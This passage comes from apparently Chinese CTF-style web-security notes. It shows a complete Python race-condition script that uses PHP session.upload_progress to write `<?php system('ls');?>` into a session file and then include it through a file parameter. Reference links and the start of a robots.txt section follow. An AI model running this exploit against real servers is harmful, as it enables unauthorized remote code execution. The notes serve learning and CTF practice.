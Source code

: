 ```
    t = threading.Thread(target=send_file, args=(session,))#为竞争函数创建一个新线程
    t.start()
    #两个线程独立运行
    getflag(session)
```

完整代码

```
import threading
import requests

target_url = "http://xxx.xxx.xxx.xxx/index.php"#据情况而定
session_id = "flag"#自行决定
expcode = {"PHP_SESSION_UPLOAD_PROGRESS":"<?php system('ls');?>"}#自行要执行的代码
MyCookie = {'PHPSESSID': sessid}#设置本地cookie值和自定义的session_id一致
proxies = {
    "http": "127.0.0.1:8080",
}#设置本机代理，也可以不设置

def send_file(session):#形参为后面多线程的指令集提供入口
    while True:
        resp = requests.post(url=target_url, data=expcode, files={'file': ('res.txt', "nothing")}, cookies=MyCookie)
        
def getflag(session):
    while True:
        payload_url = target_url + '?file=' + '/tmp/sess_' + session_id
        #根据漏洞进行伪协议读取文件
        resp = requests.get(url=payload_url)
        if 'upload_progress' in resp.text:
            print(resp.text)
            break

if __name__ == '__main__':
    session = requests.session()
    t = threading.Thread(target=send_file, args=(session,))#为竞争函数创建一个新线程
    t.start()
    #两个线程独立运行
    getflag(session)
```

###### 参考文献与拓展

[什么是session | 许小珂 (xuxiaoke.com)](https://www.xuxiaoke.com/phpnote/35.html)

[从第五空间 2021\EasyCleanup认识php_session_Aiwin-Lau的博客-CSDN博客](https://blog.csdn.net/weixin_53090346/article/details/125037416)

[PHP Session.upload_progress - chalan630 - 博客园 (cnblogs.com)](https://www.cnblogs.com/chalan630/p/14147602.html)

[PHP：会话上传进度 （php官网）](https://www.php.net/manual/en/session.upload-progress.php#:~:text=Session Upload Progress. When the session.upload_progress.enabled INI option,(via XHR for example) to check the status.)

[对于session.upload_progress漏洞的理解_huamanggg的博客-CSDN博客](https://blog.csdn.net/m0_51078229/article/details/114440061)

[详解利用session进行文件包含*合天网安实验室的博客-CSDN博客*session文件包含](https://blog.csdn.net/qq_38154820/article/details/120300273)

### （三）robots协议

[详解robots协议](https://www.cnblogs.com/sddai/p/6820415.html)

Robots协议（也称为爬虫协议、机器人协议等）的全称是“网络爬虫排除标准”（Robots Exclusion Protocol），网站通过Robots协议告诉搜索引擎哪些页面可以抓取，哪些页面不能抓取。